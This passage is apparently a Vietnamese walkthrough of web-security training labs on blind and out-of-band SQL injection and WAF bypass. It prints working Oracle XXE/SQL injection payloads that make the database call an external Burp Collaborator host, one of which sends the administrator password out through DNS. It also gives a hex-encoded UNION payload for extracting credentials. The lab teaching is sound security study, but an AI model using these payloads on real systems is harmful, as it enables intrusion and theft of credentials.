Tuy nhiên, ta có thể khiến cơ sở dữ liệu tạo ra một tương tác ngoài băng tần (out-of-band interaction) với một máy chủ bên ngoài, chẳng hạn như một yêu cầu DNS lookup (tra cứu tên miền).
Ta sẽ dùng Burp Collaborator để tạo một tên miền tạm thời và phát hiện xem cơ sở dữ liệu có gửi yêu cầu DNS đến tên miền đó không.
- Mục tiêu: Khai thác lỗ hổng SQL Injection để khiến cơ sở dữ liệu gửi một yêu cầu DNS lookup đến tên miền của Burp Collaborator, chứng minh rằng ta có thể điều khiển truy vấn SQL
- **Bước 1: Sửa đổi cookie để gây ra DNS lookup**
`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//6x4lkoh91v88ks2mtg6pihyy4pagy7mw.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`
Trong Burp Suite, nhấp chuột phải vào phần BURP-COLLABORATOR-SUBDOMAIN, chọn Insert Collaborator payload để chèn một tên miền tạm thời do Burp Collaborator tạo (ví dụ: [abc123.burpcollaborator.net](http://abc123.burpcollaborator.net/))
- Giải thích:
`EXTRACTVALUE(xmltype(...),'/l'):`
=> xmltype() chuyển một chuỗi XML thành đối tượng XML.
⇒ EXTRACTVALUE() trích xuất giá trị từ XML tại đường dẫn /l. Ở đây, nó được dùng để xử lý XML và kích hoạt tương tác ngoài băng tần
`<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "[http://BURP-COLLABORATOR-SUBDOMAIN/](http://burp-collaborator-subdomain/)"> %remote;]>:`
⇒ Đây là một đoạn XML kết hợp kỹ thuật XXE (XML External Entity):
⇒ <!ENTITY % remote SYSTEM "[http://BURP-COLLABORATOR-SUBDOMAIN/](http://burp-collaborator-subdomain/)"> định nghĩa một thực thể (entity) có tên remote, yêu cầu cơ sở dữ liệu tải tài nguyên từ URL [http://BURP-COLLABORATOR-SUBDOMAIN/](http://burp-collaborator-subdomain/)
⇒ %remote; gọi thực thể này, khiến cơ sở dữ liệu gửi yêu cầu HTTP đến URL đó.
⇒ Khi cơ sở dữ liệu xử lý XML này, nó sẽ cố gắng tải tài nguyên từ [http://BURP-COLLABORATOR-SUBDOMAIN/](http://burp-collaborator-subdomain/). Để làm điều này, nó phải thực hiện một DNS lookup để phân giải tên miền BURP-COLLABORATOR-SUBDOMAIN
- **Bước 2: Kiểm tra DNS lookup trong Burp Collaborator**
Trong Burp Suite, mở Burp Collaborator client để kiểm tra xem có yêu cầu DNS lookup nào đến tên miền ta đã chèn không.
Nếu có, ta đã thành công trong việc khai thác lỗ hổng.
- TÓM LẠI:
Dùng UNION SELECT để chèn truy vấn
Dùng kỹ thuật XXE (<!ENTITY % remote SYSTEM ...>) để yêu cầu cơ sở dữ liệu gửi một yêu cầu HTTP đến tên miền của Burp Collaborator
Yêu cầu HTTP này sẽ gây ra một DNS lookup, mà Burp Collaborator có thể phát hiện.
Kết quả: Ta gây ra một DNS lookup, chứng minh rằng lỗ hổng có thể khai thác được

1. **Lab 17: Blind SQL injection with out-of-band data exfiltration**

<aside>
💡

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

</aside>

- **Bước 1: Sửa đổi cookie để trích xuất mật khẩu qua DNS:**
`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
- Giải thích:
`SELECT password FROM users WHERE username='administrator':` ⇒ Lấy mật khẩu của administrator từ bảng users.
`<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.abc123.burpcollaborator.net/"> %remote;:` ⇒ Đây là kỹ thuật XXE (XML External Entity): Nối mật khẩu vào tên miền, tạo ra một URL như http://[mật khẩu].abc123.burpcollaborator.net/. Ví dụ, nếu mật khẩu là pass123, URL sẽ là http://pass123.abc123.burpcollaborator.net/
`%remote` ⇒ Yêu cầu cơ sở dữ liệu tải tài nguyên từ URL này, dẫn đến một DNS lookup để phân giải tên miền pass123.abc123.burpcollaborator.net.
`EXTRACTVALUE(xmltype(...),'/l'):` ⇒ Xử lý XML và kích hoạt tương tác ngoài băng tần.
- **Bước 2: Kiểm tra tương tác trong Burp Collaborator**
⇒ Giả sử ta kiểm tra Burp Collaborator và thấy có tin nhắn gửi đến [pass123.abc123.burpcollaborator.net](http://pass123.abc123.burpcollaborator.net/). Phần trước tên miền (pass123) chính là mật khẩu ta cần. Điều này chứng minh mã SQL của ta đã lấy được mật khẩu và gửi ra ngoài qua DNS lookup.
- Tóm lại:
Dùng UNION SELECT để lấy mật khẩu từ bảng users.
Dùng kỹ thuật XXE để gửi mật khẩu qua tên miền ([mật khẩu].abc123.burpcollaborator.net).
Burp Collaborator ghi nhận DNS lookup hoặc HTTP request, từ đó đọc được mật khẩu.

1. **Lab 18: SQL injection with filter bypass via XML encoding**

<aside>
💡

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

</aside>

- **Lỗ hổng SQL Injection:**
Trang web có tính năng kiểm tra hàng tồn kho (stock check), và dữ liệu gửi đi ở định dạng XML (qua productId và storeId)
Giá trị của storeId được đưa trực tiếp vào một truy vấn SQL mà không được kiểm tra kỹ, dẫn đến lỗ hổng SQL Injection.
Kết quả của truy vấn SQL được trả về trong phản hồi của ứng dụng, nên ta có thể dùng **UNION attack** để lấy dữ liệu từ các bảng khác.
- **Phân tích trang web:**
Có một Web Application Firewall (WAF) chặn các yêu cầu chứa dấu hiệu tấn công SQL Injection
Ta cần mã hóa truy vấn SQL để vượt qua WAF. Đề bài gợi ý dùng tiện ích Hackvertor trong Burp Suite để mã hóa.
- **Bước 1: Tìm lỗ hổng SQL Injection**
Truy cập tính năng kiểm tra hàng tồn kho (stock check) trên trang web.
Trong Burp Suite, vào tab Proxy -> HTTP history, tìm yêu cầu POST đến /product/stock. Yêu cầu này gửi dữ liệu ở định dạng XML
Tại Repeater, thử sửa storeId để xem ứng dụng có xử lý giá trị này trong truy vấn SQL không:
<storeId>1+1</storeId>
⇒ Ứng dụng trả về số lượng hàng tồn kho của cửa hàng có ID 2 (vì 1+1=2), điều này chứng minh storeId được đưa vào truy vấn SQL và có thể bị tấn công.
- **Bước 2: Thử UNION attack để xác định số cột**
`<storeId>1 UNION SELECT NULL</storeId>` ⇒ Yêu cầu bị chặn bởi WAF
- **Bước 3: Vượt qua WAF bằng cách mã hóa payload
Dùng** Hackvertor để chuyển payload thành dạng mã hóa
⇒ Lần này, yêu cầu không bị chặn bởi WAF, và ta nhận được phản hồi bình thường
- **Bước 4: Xác định số cột của truy vấn gốc**
`<storeId><@hex_entities>1 UNION SELECT NULL</@hex_entities></storeId>`
- **Bước 5: Lấy thông tin đăng nhập của administrator**
Vì truy vấn gốc chỉ trả về 1 cột, ta cần nối (concatenate) username và password thành một chuỗi duy nhất. Sửa payload: `<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities></storeId>`